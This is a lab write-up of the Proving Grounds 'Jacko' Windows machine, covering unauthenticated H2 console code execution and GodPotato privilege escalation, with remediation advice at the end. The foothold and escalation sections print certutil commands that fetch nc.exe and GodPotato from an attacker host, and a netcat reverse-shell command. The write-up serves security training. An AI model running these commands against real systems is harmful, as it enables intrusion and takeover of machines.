



# Jacko — Proving Grounds

| | |
|---|---|
| **Platform** | Proving Grounds (Practice) |
| **Difficulty** | Easy |
| **OS** | Windows |
| **Status** | ✅ Practice machine, no overlap with the OSCP exam pool |
| **Key techniques** | Unauthenticated H2 database console RCE, `SeImpersonatePrivilege` (GodPotato) |

---

## TL;DR

Jacko exposes an **H2 database** web console with no authentication
required, and the specific version is vulnerable to a JNI-based code
execution exploit reachable directly from that console. Privilege escalation
is a straightforward `SeImpersonatePrivilege` abuse via **GodPotato**, chosen
over older Potato variants because the target is Windows 10.

---

## Recon & Enumeration

```bash
sudo nmap -sCV -p- <TARGET_IP>
```



Port 8082 served an **H2 database** console, reachable without any login
prompt. The console itself disclosed its version (1.4.199) directly.



---

## Foothold / Initial Access

H2 1.4.199 is vulnerable to a known **JNI (Java Native Interface) code
execution** exploit: the console can be abused to load an arbitrary native
library, which executes code in the context of the H2 process. A quick
`whoami` proof-of-concept through the exploit confirmed command execution
worked.

From there, `certutil` pulled a copy of `nc.exe` onto the target:

```
certutil.exe -urlcache -split -f http://<ATTACKER_IP>/nc.exe C:\Users\Public\nc.exe
```

Triggering `nc.exe` through the same H2 code-execution path to connect back
to a listener landed a shell. User flag retrieved.

---

## Privilege Escalation

`whoami /priv` confirmed `SeImpersonatePrivilege`, and the target OS was
**Windows 10** — older Potato variants (Rotten/Juicy) are patched against on
modern builds, so **GodPotato** (which targets a different, still-viable
COM abuse path) was the right tool for this OS version:

```
certutil -urlcache -split -f http://<ATTACKER_IP>/GodPotato.exe GodPotato.exe
GodPotato.exe -cmd "cmd /c C:\Users\Public\nc.exe -e cmd.exe <ATTACKER_IP> 1234"
```



Admin shell caught on the listener. Root flag retrieved.

---

## Lessons Learned

- **An unauthenticated admin console (H2, and similarly Adminer, phpMyAdmin
  defaults, etc.) is effectively unauthenticated RCE** the moment a matching
  exploit exists for the disclosed version.
- **Potato-family tool choice depends on the target Windows version** —
  older variants (Juicy, Rotten Potato) are patched on newer builds, so
  matching the tool to the OS (GodPotato for Windows 10/11 and recent Server
  builds) avoids wasted attempts.

---

## Remediation

- Never expose database admin consoles (H2, Adminer, phpMyAdmin, etc.)
  without authentication, and keep them off the network perimeter entirely
  where possible.
- Patch to a current H2 release; the JNI code execution path is fixed in
  later versions.
- Strip `SeImpersonatePrivilege` from service accounts that don't need it.

---

**Machine:** [Proving Grounds — Jacko](https://portal.offsec.com/labs/play)
